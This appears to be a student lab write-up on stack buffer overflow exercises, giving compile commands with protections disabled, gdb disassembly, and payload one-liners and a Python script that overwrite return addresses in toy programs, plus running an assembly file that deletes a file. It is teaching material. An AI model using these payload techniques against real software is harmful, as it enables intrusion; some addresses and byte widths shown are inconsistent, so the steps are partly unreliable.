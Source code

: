 **Lab#1: Conduct buffer overflow attack on _bof1.c_, _bof2.c_, _bof3.c_ programs.**
## bo1.c
 - Step 1: Compile the program
        ```gcc -m32 -fno-stack-protector -z execstack -o bof1 bof1.c```
 - Step 2: Find the Address of `secretFunc()`
    ```ruby
    gdb ./bof1
    (gdb) disassemble secretFunc
    Dump of assembler code for function secretFunc:
    0x00000000000011a5 <+0>:     push   %rbp
    0x00000000000011a6 <+1>:     mov    %rsp,%rbp
    0x00000000000011a9 <+4>:     lea    0xe50(%rip),%rax        # 0x2000
    0x00000000000011b0 <+11>:    mov    %rax,%rdi
    0x00000000000011b3 <+14>:    mov    $0x0,%eax
    0x00000000000011b8 <+19>:    call   0x1020 <printf@plt>
    0x00000000000011bd <+24>:    nop
    0x00000000000011be <+25>:    pop    %rbp
    0x00000000000011bf <+26>:    ret
    End of assembler dump.
    (gdb) print &secretFunc
    $1 = (void (*)()) 0x11a5 <secretFunc>
    ```
     - The address is  `0x00000000000011a5`.
 - Step 3: Craft the input\
   ```python -c 'import sys; sys.stdout.buffer.write(b"A" * 200 + b"\xa5\x11\x00\x00\x00\x00\x00\x00")' > exploit_input```
 - Step 4: Run the program\
   ```./bof1 < exploit_input```
   - The output should show this line:\
   ```Congratulations!```
## bof2.c
- Step 1: Compile the program\
Ensure the program is compiled without stack protection and with debugging information.\
```gcc -o buffer_overflow buffer_overflow.c -fno-stack-protector -z execstack -g```
- Step 2: Run the program
```./bof2```
- Step 3: Check the buffer size
- Step 4: Create a exploit input
You need to construct an input that:
    - Fills buf with 40 characters.
    - Overwrites check with the value 0xdeadbeef.
- Step 5: Generate the input
```python -c 'print("A" * 40 + "\xef\xbe\xad\xde")' > exploit_input```\
This command creates a file named exploit_input containing:
    - 40 'A's (filling buf)
    - The bytes ef be ad de (overwriting check)
- Step 6: run the program with exploit input
```./bof2 < exploit_input```
- Step 7: Check the output
If successful, you get this: 
```ruby
Yeah! You win!
```
## bof3.c
- Step 1: Compile the program
  ```gcc -o bof3 bof3.c -fno-stack-protector -z execstack -g```
- Step 2: Open ```gdb``` \
  ```gdb ./bof3```
- Step 3: Find the address of ```shell```
  ```ruby
    (gdb) disassemble shell
    Dump of assembler code for function shell:
       0x0000000000001195 <+0>:     push   %rbp
       0x0000000000001196 <+1>:     mov    %rsp,%rbp
       0x0000000000001199 <+4>:     lea    0xe60(%rip),%rax        # 0x2000
       0x00000000000011a0 <+11>:    mov    %rax,%rdi
       0x00000000000011a3 <+14>:    call   0x1030 <puts@plt>
       0x00000000000011a8 <+19>:    nop
       0x00000000000011a9 <+20>:    pop    %rbp
       0x00000000000011aa <+21>:    ret
    End of assembler dump.  
  ```
  ```ruby
  (gdb) print &shell
  $1 = (void (*)()) 0x1195 <shell>
  ```
- Step 4: Create a exploit input
  ```ruby
  python -c 'import sys; sys.stdout.buffer.write(b"A" * 128 + b"\x95\x11\x00\x00")'
  ```
- Step 5: Run the program with exploit input
- Step 6: Check the output
  ```ruby
  You made it! The shell() function is executed
  ```
  is visible on the output if it is correct.
 
#
**Lab#2:**
#
## Inject code to delete file: file_del.asm is given on github
- Step 1: Compile and run the code
  - Assemble the code\
    ```nasm -f elf32 file_del.asm -o file_del.o```
  - Link the object file\
    ```ld -m elf_i386 file_del.o -o file_del```
  - Run the program\
    ```./file_del```
`
  ```ruby
  Dockerfile                 bof3.c                     flag.c
  a.out                      docker                     flag.out
  bof1                       docker-compose.debug.yml   flow.c
  bof1.c                     docker-compose.yml         flow.out
  bof1.out                   exploit_input              input.txt
  bof2                       file_del                   pattern.c
  bof2.c                     file_del.asm               pattern.out
  bof3                       file_del.o                 peda-session-flag.out.txt
  ```
    The ```dummyfile``` is deleted, means that we're correct.
## Conduct attack on ctf.c
- Step 1: Compile the program\
  ```gcc -g -fno-stack-protector -o ctf ctf.c```
- Step 2: Find the address of ```myfunc()```\
  ```ruby
  gdb ./ctf
  (gdb) disassemble myfunc
  Dump of assembler code for function myfunc:
       0x00000000000011d5 <+0>:     push   %rbp
       0x00000000000011d6 <+1>:     mov    %rsp,%rbp
       0x00000000000011d9 <+4>:     sub    $0x60,%rsp
       0x00000000000011dd <+8>:     mov    %edi,-0x54(%rbp)
       0x00000000000011e0 <+11>:    mov    %esi,-0x58(%rbp)
       0x00000000000011e3 <+14>:    lea    0xe16(%rip),%rax        # 0x2000
       0x00000000000011ea <+21>:    mov    %rax,%rsi
       0x00000000000011ed <+24>:    lea    0xe0e(%rip),%rax        # 0x2002
       0x00000000000011f4 <+31>:    mov    %rax,%rdi
       0x00000000000011f7 <+34>:    call   0x1060 <fopen@plt>
       0x00000000000011fc <+39>:    mov    %rax,-0x8(%rbp)
       0x0000000000001200 <+43>:    cmpq   $0x0,-0x8(%rbp)
       0x0000000000001205 <+48>:    jne    0x1220 <myfunc+75>
       0x0000000000001207 <+50>:    lea    0xdfe(%rip),%rax        # 0x200c
       0x000000000000120e <+57>:    mov    %rax,%rdi
       0x0000000000001211 <+60>:    call   0x1050 <puts@plt>
       0x0000000000001216 <+65>:    mov    $0x0,%edi
       0x000000000000121b <+70>:    call   0x1070 <exit@plt>
       0x0000000000001220 <+75>:    mov    -0x8(%rbp),%rdx
       0x0000000000001224 <+79>:    lea    -0x50(%rbp),%rax
       0x0000000000001228 <+83>:    mov    $0x40,%esi
       0x000000000000122d <+88>:    mov    %rax,%rdi
       0x0000000000001230 <+91>:    call   0x1040 <fgets@plt>
    --Type <RET> for more, q to quit, c to continue without paging--c
       0x0000000000001235 <+96>:    lea    0xde2(%rip),%rax        # 0x201e
       0x000000000000123c <+103>:   mov    %rax,%rdi
       0x000000000000123f <+106>:   mov    $0x0,%eax
       0x0000000000001244 <+111>:   call   0x1030 <printf@plt>
       0x0000000000001249 <+116>:   cmpl   $0x4081211,-0x54(%rbp)
       0x0000000000001250 <+123>:   je     0x1268 <myfunc+147>
       0x0000000000001252 <+125>:   lea    0xdd7(%rip),%rax        # 0x2030
       0x0000000000001259 <+132>:   mov    %rax,%rdi
       0x000000000000125c <+135>:   mov    $0x0,%eax
       0x0000000000001261 <+140>:   call   0x1030 <printf@plt>
       0x0000000000001266 <+145>:   jmp    0x1296 <myfunc+193>
       0x0000000000001268 <+147>:   cmpl   $0x44644262,-0x58(%rbp)
       0x000000000000126f <+154>:   je     0x1287 <myfunc+178>
       0x0000000000001271 <+156>:   lea    0xdb8(%rip),%rax        # 0x2030
       0x0000000000001278 <+163>:   mov    %rax,%rdi
       0x000000000000127b <+166>:   mov    $0x0,%eax
       0x0000000000001280 <+171>:   call   0x1030 <printf@plt>
       0x0000000000001285 <+176>:   jmp    0x1296 <myfunc+193>
       0x0000000000001287 <+178>:   lea    0xdc1(%rip),%rax        # 0x204f
       0x000000000000128e <+185>:   mov    %rax,%rdi
       0x0000000000001291 <+188>:   call   0x1050 <puts@plt>
       0x0000000000001296 <+193>:   leave
       0x0000000000001297 <+194>:   ret
  End of assembler dump.
  (gdb) print &myfunc
  $1 = (void (*)(int, int)) 0x11d5 <myfunc>
    ```
  - Step 3: Create the exploit
    ```ruby
    p = 0x04081211  # address p
    q = 0x44644262  # address q
    myfunc_addr = 0x11d5 
    
    payload = b"A" * 100  # Fill the buffer
    payload += myfunc_addr.to_bytes(4, 'little')  # Overwrite return address
    payload += p.to_bytes(4, 'little')  # Parameter p
    payload += q.to_bytes(4, 'little')  # Parameter q
    
    with open("exploit_input", "wb") as f:
        f.write(payload)
    ```
    Run it with ```python exploit_code.py``` #replace with your actual file
  - Step 4: Run the program with exploit
    ```./ctf < exploit_input```
  - Step 5: Check the output\
    The output should be printed:
    ```ruby
    myfunc is reached, You got the flag
    ```
    

    
